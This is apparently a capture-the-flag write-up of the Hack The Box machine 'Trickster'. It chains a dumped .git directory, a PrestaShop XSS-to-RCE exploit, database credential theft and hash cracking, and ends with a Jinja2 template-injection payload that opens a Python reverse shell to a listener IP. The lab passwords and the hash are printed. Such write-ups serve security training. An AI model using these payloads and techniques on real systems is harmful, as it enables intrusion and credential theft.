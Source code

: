 1,Recon
port scan 
	22/tcp ssh `OpenSSH 8.9p1 Ubuntu 3ubuntu0.10`
	80/tcp http `Apache httpd 2.4.52`

Page check
![](images/Pasted%20image%20202409220211111.png)
By press the shop button, it would redirect to `http://shop.trickster.htb`

![](images/Pasted%20image%2020240922021800.png)

Then we can find the login page.
![](images/Pasted%20image%2020240922022017.png)
In this place, we did not have the valid credit, so we can try to create a account and check the `[PrestaShop™]` version.
And we have found the admin account email
```
Store information

Trickster Store  
United States  
Email us: [admin@trickster.htb](mailto:admin@trickster.htb)
```
But when we login successfully there is still nothing useful for us.
Then I want to try some existed vulnerability from exploit-db 
`Prestashop 1.7.7.0 - 'id_product' Time Based Blind SQL Injection`
But it seems not be our target.

Then I would want to check the other web-content.
```
ffuf -u http://shop.trickster.htb/FUZZ -w /usr/share/wordlists/dirb/common.txt -fc 403

.git/HEAD               [Status: 200, Size: 28, Words: 2, Lines: 2, Duration: 32ms]
```
Then I found the `.git` and we can use `git-dumper`to download to local machine
`git-dumper http://shop.trickster.htb/.git/ ./git-repo-dump`
Then we can check this git repository:
![](images/Pasted%20image%2020240922024524.png)
The directory `admin634ewutrx1jgitlooaj` looks interesting.
Then let's check it from browser
`http://shop.trickster.htb/admin634ewutrx1jgitlooaj/`
![](images/Pasted%20image%2020240922024721.png)
We get the version `PrestaShop 8.1.5` and let's check its vulners.
```
CVE-2024-34716 – The Deceptive PNG Trap: Breaking Down the PNG-Driven Chain from XSS to Remote Code Execution on PrestaShop (<=8.1.5)
https://ayoubmokhtar.com/post/png_driven_chain_xss_to_remote_code_execution_prestashop_8.1.5_cve-2024-34716/
```
`https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php `
When we get the totally shit poc, we need to change it by ourselves.
Then we can run it  and open the `http.server`
```
python3 -m http.server 80

python3 exploit.py
[?] Please enter the URL (e.g., http://prestashop:8000): http://shop.trickster.htb
[?] Please enter your email: wither@trickster.htb
[?] Please enter your message: hello
[?] Please provide the path to your HTML file: ./exploit.html
[X] Yay! Your exploit was sent successfully!
[X] Once a CS agent clicks on attachement, you'll get a SHELL
```
Then we can get the shell as www-data:
```
connect to [10.10.16.15] from (UNKNOWN) [10.10.11.34] 52956
Linux trickster 5.15.0-121-generic #131-Ubuntu SMP Fri Aug 9 08:29:53 UTC 2024 x86_64 x86_64 x86_64 GNU/Linux
 08:18:29 up  2:46,  1 user,  load average: 0.10, 0.11, 0.18
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
james    pts/0    10.10.16.15      07:41    3:41   0.07s  0.07s -bash
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$
```

we can make a stable shell by python
```
upgrade to PTY
python3 -c 'import pty;pty.spawn("bash")'
^Z
stty raw -echo; fg
```

When we get the shell, we need to enumerate the files and switch to the valid user shell
There is a config file with valid credit
```
/var/www/prestashop/app/config/parameters.php

'database_host' => '127.0.0.1',
    'database_port' => '',
    'database_name' => 'prestashop',
    'database_user' => 'ps_user',
    'database_password' => 'prest@shop_o',
    'database_prefix' => 'ps_',
    'database_engine' => 'InnoDB',
```

The  connect to mysql
```
use prestashop
select * from ps_employee;
james@trickster.htb | $2a$04$rgBYAsSHUVK3RZKfwbYY9OPJyBbt/OzGw9UHi4UnlK6yG5LyunCmm
```

crack james hash => password:`alwaysandforever`
Then we can use ssh to login james shell.

3,shell as root
Fristly we would be like check `sudo -l`
`Sorry, user james may not run sudo on trickster.`

Then we would continue check the `ifconfig` and `netstat`
```
ifconfig

docker0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 172.17.0.1  netmask 255.255.0.0  broadcast 172.17.255.255
        ether 02:42:75:61:fe:5d  txqueuelen 0  (Ethernet)
        RX packets 75763  bytes 6661585 (6.6 MB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 326059  bytes 16805840 (16.8 MB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 10.10.11.34  netmask 255.255.254.0  broadcast 10.10.11.255
        ether 00:50:56:b9:5d:9a  txqueuelen 1000  (Ethernet)
        RX packets 2183172  bytes 239295902 (239.2 MB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 1479464  bytes 410014126 (410.0 MB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

netstat -ntlp

tcp 127.0.0.1:39345 
tcp 0.0.0.0:22 ssh
tcp 0.0.0.0:80 http
tcp 127.0.0.1:3306 mysql
```

In this place we found we have `docker ip` but we did not in the docker.So we guess there would be another docker service.But james is not in docker group
`uid=1000(james) gid=1000(james) groups=1000(james)`

So let's just check it by `ping` and `curl`.
```
ping 172.17.0.2
PING 172.17.0.2 (172.17.0.2) 56(84) bytes of data.
64 bytes from 172.17.0.2: icmp_seq=1 ttl=64 time=0.057 ms
64 bytes from 172.17.0.2: icmp_seq=2 ttl=64 time=0.051 ms
64 bytes from 172.17.0.2: icmp_seq=3 ttl=64 time=0.053 ms
^C
--- 172.17.0.2 ping statistics ---
3 packets transmitted, 3 received, 0% packet loss, time 2040ms
rtt min/avg/max/mdev = 0.051/0.053/0.057/0.002 ms

curl 172.17.0.2
curl: (7) Failed to connect to 172.17.0.2 port 80 after 0 ms: Connection refused

```
That means there is another docker container exist but we did not know which port or service.
Let's make a bash script to check which port is open 
```
#!/bin/bash

# IP address
IP="172.17.0.2"

# Start and end port numbers
START_PORT=1
END_PORT=10000

# Loop to check the port range
for PORT in $(seq $START_PORT $END_PORT); do
  # Use curl to check the port
  curl --connect-timeout 1 $IP:$PORT > /dev/null 2>&1
  
  if [ $? -eq 0 ]; then
    echo "Port $PORT is open on $IP."
  fi
done

or just use nmap the 172.17.0.*
```

Then we get the target:
```
curl 172.17.0.2:5000
<!doctype html>
<html lang=en>
<title>Redirecting...</title>
<h1>Redirecting...</h1>
<p>You should be redirected automatically to the target URL: <a href="/login?next=/">/login?next=/</a>. If not, click the link.
```

Let's use ssh to port forwarding
`ssh james@trickster.htb -L 5000:172.17.0.2:5000`
![](images/Pasted%20image%2020240922034210.png)
We have its version `changedetection.io v0.45.20`
Then we can search the exploit-db
`changedetection < 0.45.20 - Remote Code Execution (RCE)`

Of course, we can use james credit to login.

For triggering launch of Root PoC:
1,start a web-server on the machine "python3 -m http.server 8000"
2,On  the changedetect.io site "Add New Change" enter the URL http://172.17.0.1:8000" && "Edit > Watch"
![](images/Pasted%20image%2020240922040829.png)

3,Set the Notification Url to `"get://<attacker-ip>" `&& the Notification Body to the one from the PoC except change your to your IP & Port"

In this place, because of the jinja format, we can get the payload from `HackTricks`

`Body for all notifications ‐ You can use [Jinja2](https://jinja.palletsprojects.com/en/3.0.x/templates/) templating in the notification title, body and URL, and tokens from below.`

```
{% for x in ().__class__.__base__.__subclasses__() %}{% if "warning" in x.__name__ %}{{ x()._module.__builtins__['__import__']('os').popen("python3 -c 'import os,pty,socket;s=socket.socket();s.connect((\"listen_ip\",listen_port));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn(\"/bin/bash\")'").read() }}{% endif %}{% endfor %}
```

4, Then we just need to open nc to handle it and press the `Send test notification` .
Then get the container shell, check the `.bash_histroy`
```
root@ae5c137aa8ef:~# cat .bash_history
cat .bash_history
apt update
#YouC4ntCatchMe#
apt-get install libcap2-bin
capsh --print
clear
capsh --print
cd changedetectionio/
```
Then we can see the really liked password `#YouC4ntCatchMe#`

Come to james shell, and su root. 
Get the root shell.

